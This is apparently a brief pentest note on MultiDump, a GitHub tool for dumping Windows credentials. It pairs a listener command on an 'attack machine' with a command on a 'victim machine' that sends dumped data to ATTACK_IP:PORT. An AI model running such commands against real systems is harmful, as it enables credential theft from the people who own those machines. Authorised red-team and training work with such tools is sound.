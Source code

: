 # MultiDump 

## Github repo: https://github.com/Xre0uS/MultiDump

### Example Usage:

#### 1) Attack machine: 

    python3 MultiDumpHandler.py -r PORT

#### 2) Victim Machine: 

    .\MultiDump.exe -r ATTACK_IP:PORT

### For more detailed usage, consult the github repository for further information
